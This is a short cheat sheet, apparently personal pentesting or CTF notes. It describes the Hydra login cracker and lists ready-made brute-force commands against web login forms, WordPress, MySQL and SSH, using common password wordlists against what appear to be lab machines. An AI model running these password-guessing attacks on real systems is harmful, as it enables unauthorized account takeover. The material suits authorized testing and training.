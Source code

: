 Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add.

# Commands

* `hydra -l admin -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.10.73 http-post-form "/login.php:username=admin&password=^PASS^:Wrong identification"`

## WordPress

* `hydra -L users -P /usr/share/wordlists/rockyou.txt five86-2 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Ffive86-2%2Fwp-admin%2F&testcookie=1:ERROR:H=Cookie: wordpress_test_cookie=WP+Cookie+check" -t 30 -I`

## SQL

* `hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.120.198 mysql -t 16 `

## SSH

* `hydra -l samantha -P /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt 192.168.183.116 ssh`
* `hydra -t 4 -l hadi -P passwords-mutated.txt 192.168.120.52 ssh`